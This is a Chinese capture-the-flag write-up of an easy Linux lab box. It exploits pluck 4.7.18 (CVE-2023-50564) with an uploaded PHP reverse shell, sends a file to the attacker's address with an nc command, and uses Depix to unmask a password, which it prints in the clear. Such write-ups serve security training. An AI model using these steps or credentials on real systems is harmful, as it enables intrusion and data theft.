

## Box Info

| OS | Linux |
| --- | --- |
| Difficulty | Easy |

## Basic Scan

### Nmap


### Dirsearch


找到一些敏感文件


进入`login.php`，发现pluck的版本是`4.7.18`

## CVE-2023-50564

查询相关漏洞之后，发现RCE需要先上传文件。

进入`3000`端口



找到`pass.php`，并尝试解密


登录成功，进入installmodule


这里把反弹shell文件进行压缩后上传

[php-reverse-shell/php-reverse-shell.php at master · pentestmonkey/php-reverse-shell (github.com)](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)


得到反弹shell


存在两个用户，git和junior，其中junior能进去，但是没有权限读取user.txt

```
python3 -c "import pty;pty.spawn('/bin/bash')"
```

升级shell，用之前的密码尝试切换junior用户，得到user.txt


## Privilege Escalation

尝试下载这个pdf文件

使用nc连接传输

```
#靶机
junior@greenhorn:~$ nc -q 0 10.10.16.29 4321 < 'Using OpenVAS.pdf'

#kali
nc -lnvp 4321 > file.pdf
```


打开这个pdf，发现密码被打了码


Github工具：[spipm/Depix: Recovers passwords from pixelized screenshots (github.com)](https://github.com/spipm/Depix)


```
python3 depix.py -p /home/kali/Pictures/ma.png -s images/searchimages/debruinseq_notepad_Windows10_closeAndSpaced.png -o output.png 
```


勉强能看出是：`sidefromsidetheothersidesidefromsidetheotherside`


## Summary

做到这个题目才知道有`Depix`这种消除马赛克的东西，感觉很厉害

整体来说比较常规
